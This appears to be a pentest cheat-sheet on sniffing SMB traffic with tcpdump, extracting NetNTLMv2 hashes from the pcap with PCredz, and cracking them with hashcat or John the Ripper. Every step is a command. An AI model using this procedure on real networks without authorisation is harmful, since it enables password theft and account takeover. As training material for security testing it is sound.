



extract NetNTLMv2 hashes from pcap file and crack
Prerequisite: Install PCredz
apt install python3-pip && pip3 install Cython && pip3 install python-libpcap #Linux
cd /root/bin/
git clone https://github.com/lgandx/PCredz.git
How to do it(without using Metasploit):
1.
Sniff → We can use both tcpdump or Wireshark to sniff and save the packet
capture
tcpdump -nv -s0 port 445 -w /tmp/captured.pcap
-s0 → indicates that we want full packets, not just the first 68 bytes (some old versions of tcpdump
will only grab the first 68 bytes)
-v → print out how many packets it has received so far
-w → save file
2.
Authentication attempt → Here we simulate a client that try to authenticate with us
smbclient //AttackerIP/c$ random -U random
3.
Terminate
tcpdump → tcpdump sniffer in the other tab should show that you’ve captured some packets.
YOU MUST
press CTRL-C in the tcpdump terminal or tcpdump will not write the packets into its capture file. We’ve gathered our
packets
5.
Extract → Extract hashes into a crackable format with
PCredz(https://github.com/lgandx/PCredz) that is a free tool to extract many types of hashes
cd /root/bin/PCredz
python3 Pcredz -f /tmp/captured.pcap
 2.1. The Pcredz tool doesn't
have an option to save the hashes directly in a crackable format, It instead create a log file named
CredentialDump-Session.log in the PCredz folder that contains the output, including hashes. Now we manually select
the hash and save it in a.txt file, a format we can use with Hashcat or John
nano hash.txt
cat hash.txt
8.
Crack
◇ We can crack with
John
the Ripper or
Hashcat
▪
hashcat -w 3 -a 0 -m 5600 hash.txt password.lst #Hash-mode 5600 is for NetNTLMv2
▪
john hash.txt #JtR autodetect the type of the hash
◇ Cain can sniff, extract, and crack all by itself, but it isn't a strong
cracker